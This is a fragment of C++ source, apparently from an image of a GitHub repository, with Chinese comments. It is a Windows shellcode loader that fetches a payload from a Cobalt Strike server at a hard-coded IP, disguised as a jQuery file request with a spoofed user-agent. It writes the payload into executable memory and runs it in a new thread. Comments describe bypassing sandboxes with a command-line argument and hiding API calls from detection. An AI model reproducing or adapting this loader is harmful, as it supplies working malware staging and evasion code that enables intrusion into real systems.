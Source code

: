 ```c++
        cout << "length:" << length << "\n";
        if (ret == FALSE) {
            printf("htttpqueryinfo error:%d\n", GetLastError());
            return 0;
        }
        void* c = VirtualAlloc(NULL, length + 1, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//分配内存，保存获取的文件，实现加载器
        int readed = 0;
        InternetReadFile(HttpRequest, c, length + 1, (LPDWORD)&readed);
        char* cc = (char*)c + 11;//跳过配置文件前面追加字符
        HANDLE ct = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)cc, NULL, 0, NULL);//CreateThread的api可能会被检测到
        WaitForSingleObject(ct, INFINITE);
        VirtualFree(c, length + 1, MEM_DECOMMIT);
    }
    else {
        printf("hello world\n");
    }
    return 0;
}
*/
#include <iostream>
#include <Windows.h>
#include <stdio.h>
#include <Wininet.h>
using namespace std;
#pragma comment(lib,"wininet")
typedef _Ret_maybenull_ _Post_writable_byte_size_(dwSize) LPVOID(WINAPI* PVA)(
    _In_opt_ LPVOID lpAddress,
    _In_     SIZE_T dwSize,
    _In_     DWORD flAllocationType,
    _In_     DWORD flProtect
    );

typedef WINBASEAPI _Ret_maybenull_ HANDLE(WINAPI* PCT)(
    _In_opt_ LPSECURITY_ATTRIBUTES lpThreadAttributes,
    _In_     SIZE_T dwStackSize,
    _In_     LPTHREAD_START_ROUTINE lpStartAddress,
    _In_opt_ __drv_aliasesMem LPVOID lpParameter,
    _In_     DWORD dwCrationFlags,
    _Out_opt_ LPDWORD lpThreadId
    );

int main(int argc, char* argv[]) {
    if (argc > 1) {//通过传入参数绕过沙箱
        HINTERNET nethandle = InternetOpenA("Mozilla/5.0 (Windows NT 10.0; WOW64) (KHTML, like Gecko) Chrome/77.0 Safari/536", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);//user-agent可以修改
        if (nethandle == NULL) {
            printf("internet open error:%d\n", GetLastError());
            return 0;
        } 
        char* host = (char*)"192.168.211.129";//cs的ip
        HINTERNET Session = InternetConnectA(nethandle, host, INTERNET_DEFAULT_HTTP_PORT, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0);//使用https加密传输
        if (Session == NULL)
        {
            printf("internet connect error:%d\n", GetLastError());
            return 0;
        }
        HINTERNET HttpRequest = HttpOpenRequestA(Session, "GET", "/jquery-3.3.2.slim.min.js", "HTTP/1.0", NULL, NULL, INTERNET_FLAG_DONT_CACHE, 0);//通过get请求profile文件中64位的url地址
        if (HttpRequest == NULL) {
            printf("http open request error:%d\n", GetLastError());
```